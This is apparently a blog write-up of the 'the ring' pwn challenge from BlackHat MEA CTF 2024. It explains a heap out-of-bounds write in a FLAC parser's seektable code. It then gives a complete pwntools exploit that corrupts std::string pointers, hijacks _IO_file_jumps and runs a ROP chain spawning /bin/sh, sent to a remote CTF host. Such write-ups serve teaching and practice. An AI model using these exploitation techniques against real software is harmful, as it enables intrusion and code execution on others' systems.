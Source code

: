 +++
title = 'the ring - BlackHat MEA CTF 2024'
date = 2024-09-02T20:24:09+02:00
draft = false
+++

I had a fun time playing BlackHat MEA CTF. this pwn challenge was particulary nice.

in "the ring" you were given a `FLAC` audio file parser, written in C++.
you can provide such a custom audio file and get presented the output of the program.
notice that there is a python wrapper handling the file and outputs readable text only.

now the general functionality of the program:
the program checks the magic bytes first (`#define FLAC_MAGIC 0x664c6143U`) and then immedeately
starts looking for the initial `TYPE_STREAMINFO` block, which may be followed by more blocks.

blocks in this case are chunks of data, that have a specific type and data associated to them.
in the header file we can find the following block types:
```c
enum FlacType {
  TYPE_STREAMINFO = 0,
  TYPE_PADDING,
  TYPE_APPLICATION,
  TYPE_SEEKTABLE,
  TYPE_VORBIS_COMMENT,
  TYPE_CUESHEET,
  TYPE_PICTURE,
};
```
each block is handeled differently and the same type can be present mulitple times.
after looking for some bugs in the individual block functions, I found this:
```c
void FlacFile::parseBlockSeekTable(uint32_t size) {
  if (size % 18) {
    _lastError = FLAC_INVALID_SEEKTABLE;
    return;
  }

  uint32_t tableCount = size / 18;
  _seekPoints.resize(tableCount);
  for (size_t i = 0; i < tableCount; i++) {
    _seekPoints[_seekPointsCount].number = getBig64();
    _seekPoints[_seekPointsCount].offset = getBig64();
    _seekPoints[_seekPointsCount].sampleCount = getBig16();
    _seekPointsCount++;
  }
}
```
the problem is the index variable `_seekPointsCount` due to it not being reset after the loop.
we can put multiple blocks of type `TYPE_SEEKTABLE` with the same and constant `size`.
now `_seekPointsCount` acts like a global counter will eventually become greater than `size`.
this allows an out-of-bounds write on the heap.

as a target I chose a block of type `TYPE_VORBIS_COMMENT`, because it internal structure has `std::string`s as members,
lying on the heap and getting reused too. now you could corrupt the `pointer` of
a `std::string` object, that specifies where the data is stored.
```
0xf2e7630:      0x000000000f2e7640      0x0000000000000078      // [pointer]    [size_type]
0xf2e7640:      0x4141414141414141      0x4141414141414141
```

if you read data in that string again, you can write to your custom address.
I used `vendor` and one string if `commentList` as targets.
the binary was statically linked and there was no pie, so we had all th freedom we needed.

to get rip control, I chose `_IO_file_jumps` to overwrite, which was `rw` in the binary.
overwriting the entry of `fflush` was quite useful, since the registers contained good values.
many of them pointed to `stderr`, so that's where I wrote to with the second `std::string`.
after some fiddling around and using the gadget `mov rsp, rcx ; pop rcx ; jmp rcx`, I was able
to pivot the stack to `stderr`, where my ropchain was lying.

so all that was left to do now is to rop. be careful that you don't have stdin and that you
can only print human readable characters. the easiest way to do this was to create an `execve` call:
```
execve("/bin/sh", ["/bin/sh", "-c", "cat", "/flag*"], NULL)
```
this was rather simple to do and sucessfully outputs the flag file:
```
[+] Starting local process '/usr/bin/python3': pid 252854
[*] Switching to interactive mode
: === FLAC Info ===
FLAG{*** REDACTED ***}

[*] Got EOF while reading in interactive
$
```
exploit code:
```py
from pwn import *
import subprocess

TYPE_STREAMINFO = 0
TYPE_PADDING = 1
TYPE_APPLICATION = 2
TYPE_SEEKTABLE = 3
TYPE_VORBIS_COMMENT = 4
TYPE_CUESHEET = 5
TYPE_PICTURE = 6

def p24(x, endian='little'):
    return p32(x, endian=endian)[1:]

file_jumps = 0x5de100
stderr_ptr = 0x5deca0
stderr_stuff = 0x5e2560
gadget = 0x4a8c39 # mov rsp, rcx ; pop rcx ; jmp rcx

pop_rax = 0x42111a
pop_rdi = 0x40591d
pop_rsi = 0x4073a3
pop_rdx_rbx = 0x533dab
binsh = file_jumps
binsh_args = binsh + 0x18
syscall = 0x4db386
ret = 0x40101a

f = open("./payload", "wb+")

overflow = b""
overflow += p8(TYPE_SEEKTABLE, endian='big')
overflow += p24(0x12, endian='big') # len
overflow += p64(0x4242424242424242, endian='big')
overflow += p64(file_jumps, endian='big')
overflow += p16(0x4242, endian='big')

overflow1 = b""
overflow1 += p8(TYPE_SEEKTABLE, endian='big')
overflow1 += p24(0x12, endian='big') # len
overflow1 += p64(stderr_ptr, endian='big')
overflow1 += p64(0x100, endian='big')
overflow1 += p16(0x4343, endian='big')

payload = b"/bin/sh\x00-c\x00cat /flag*\x00AA" + p64(binsh) + p64(binsh+8) + p64(binsh+11) + p64(0x0) + b"A"*0x20 + p64(gadget)
payload = payload.ljust(0x78, b"\x41")

rop = b""
rop += p64(ret)
rop += p64(pop_rax)
rop += p64(0x3b)
rop += p64(pop_rdi)
rop += p64(binsh)
rop += p64(pop_rsi)
rop += p64(binsh_args)
rop += p64(pop_rdx_rbx)
rop += p64(0x0)
rop += p64(0x0)
rop += p64(syscall)
rop += p64(pop_rax)
rop += p64(0x3c)
rop += p64(pop_rdi)
rop += p64(0x0)
rop += p64(syscall)

comment = b""
comment += p8(TYPE_VORBIS_COMMENT, endian='big')
comment += p24(0x1c+0x70+0xd8, endian='big') # len
comment += p32(0x78) # len
comment += payload # vendor
comment += p32(0x1) # count
comment += p32(0xe0) # len
comment += p64(ret) + rop + p64(stderr_stuff) + b"A"*0x48 + p64(file_jumps+0x58-0x60)

end = b""
end += p8(TYPE_CUESHEET | 128, endian='big')
end += p24(0, endian='big')

filedata = b""
filedata += p32(0x664c6143, endian='big')
filedata += p8(TYPE_STREAMINFO, endian='big')
filedata += p24(34, endian='big') # len
filedata += p16(0x1337, endian='big')
filedata += p16(0x1338, endian='big')
filedata += p24(3, endian='big')
filedata += p24(4, endian='big')
filedata += p32(5, endian='big')
filedata += p32(6, endian='big')
filedata += b"Z"*0x10

filedata += overflow

filedata += comment

filedata += overflow
filedata += overflow1*9

filedata += comment

filedata += end

f.write(filedata)
f.close()

context.terminal = ["tmux", "splitw", "-h"]

p = remote("18.203.110.195", 30624)
#p = process(["python3", "./run.py"])
#p = gdb.debug(["./parser", "./payload"])

p.recvuntil("proof of work:\n")
cmd = p.recvline().strip(b"\n").decode("ascii")
print(cmd)
sol = input("solution: ")
p.sendline(sol)

p.sendlineafter(b"Size", str(len(filedata)).encode("ascii"))
p.sendlineafter(b"File", filedata)
p.interactive()
```